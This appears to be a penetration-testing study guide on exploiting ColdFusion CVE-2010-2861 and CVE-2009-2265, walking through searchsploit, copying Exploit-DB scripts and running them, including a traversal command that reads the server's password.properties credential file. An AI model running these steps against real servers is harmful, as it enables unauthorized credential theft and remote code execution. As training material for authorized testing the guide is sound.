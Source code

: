 # ColdFusion Exploitation Guide

## 1. Overview of ColdFusion Vulnerabilities

ColdFusion is a Java-based web application development platform known for its CFML (ColdFusion Markup Language). However, several versions have been found vulnerable to severe exploits, including:

- **CVE-2010-2861 (Directory Traversal)** – Allows attackers to read arbitrary files by manipulating the locale parameter.
    
- **CVE-2009-2265 (Unauthenticated RCE)** – Permits unauthenticated file uploads, leading to Remote Code Execution (RCE) through the FCKeditor package.
    

---

## 2. Exploitation Techniques

### 2.1 Directory Traversal Exploit (CVE-2010-2861)

**Objective:** Read arbitrary files from the ColdFusion server.

#### Steps:

1. **Search for available exploits**
    
    ```bash
    searchsploit adobe coldfusion
    searchsploit -p 14641
    ```
    
2. **Copy the exploit script to the working directory**
    
    ```bash
    cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
    ```
    
3. **Execute the script**
    
    ```bash
    python2 14641.py <target_ip> <target_port> <file_path>
    ```
    

**Example Usage:**

```bash
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```

---

### 2.2 Unauthenticated Remote Code Execution (CVE-2009-2265)

**Objective:** Gain remote code execution by exploiting a vulnerability in ColdFusion’s FCKeditor package.

#### Steps:

1. **Search for the exploit**
    
    ```bash
    searchsploit -p 50057
    ```
    
2. **Copy the exploit script**
    
    ```bash
    cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
    ```
    
3. **Modify the script** – Update local and remote IP addresses and ports.
    
4. **Execute the exploit**
    
    ```bash
    python3 50057.py
    ```
    

---

## 3. Commands Summary

### 3.1 SearchSploit Usage

```bash
searchsploit adobe coldfusion
searchsploit -p 14641
searchsploit -p 50057
```

### 3.2 File Manipulation

```bash
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
```

### 3.3 Exploit Execution

```bash
python2 14641.py <target_ip> <target_port> <file_path>
python3 50057.py
```

---

## 4. Key Takeaways

- **SearchSploit** is a useful tool for identifying known vulnerabilities and exploits.
    
- **Directory traversal** can allow unauthorized access to sensitive files.
    
- **Unauthenticated RCE** can lead to full system compromise.
    
- Always modify exploit scripts to fit your target’s IP and port.
    
- **Responsible and ethical hacking is critical** – never exploit systems without permission.
    

